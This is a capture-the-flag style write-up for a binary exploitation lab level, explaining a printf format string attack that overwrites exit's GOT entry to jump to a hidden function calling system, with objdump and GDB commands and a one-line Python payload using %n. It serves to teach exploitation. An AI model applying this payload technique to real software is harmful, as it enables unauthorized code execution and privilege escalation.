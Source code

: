 # LEVEL 5

## 💡 Explanation

In this level we have to:
1. Checking a bit the main we see that it call a function `n`, which is a simple `fget`, `printf` and `exit`; from what we have learnt on the last exercises we can deduce that the exploit will be on the `printf`.
2. By having a look to the objdump of the binary we can see that there is a funtion `o` which is present but it is not called neither by the main nor by the function `n` (as on the level1). This function contains a call to `system` which looks suspicious. We are going to try to execute the function `o`.
3. The way of doing so is by replacing the address of `exit` (the function called right after `printf`) by the address of the function `o` on the Global Offset Table (GOT), so since the program's next instruction is `exit()` it will go to look for its real address on the GOT and it will find the address of `o` and then execute it.
4. The exploit looks like this [ADDRESS OF EXIT AT GOT][ADDRESS OF FUNCT O][%N FORMATTER]. We find that the `exit` function address is saved in the address 0x08049838 of the GOT, there is where we have to write. What we have to write is the address of our `o`: 0x080484a4 (134513828) in decimal. And then we just check were in the stack we have to write. Voilà!

## 👾 Commands

To find the solution:
```
[VM]  objdump -s -j .got.plt /home/user/level5/level5
[VM]  objdump -R /home/user/level5/level5
[GDB] info functions
```

To execute the solution:
- `(python -c 'print "\x38\x98\x04\x08" + "%134513824x" + "%4$n"' ; cat - ) | /home/user/level5/level5`

## 🔍 Resources

- [Chaine de format - exploitation](https://www.root-me.org/fr/Documentation/Applicatif/Chaine-de-format-exploitation)
- [How to Hijack the Global Offset Table with pointers](https://www.exploit-db.com/papers/13203)
- [How to hijack the Global Offset Table with pointers for root shells](http://www.infosecwriters.com/text_resources/pdf/GOT_Hijack.pdf)
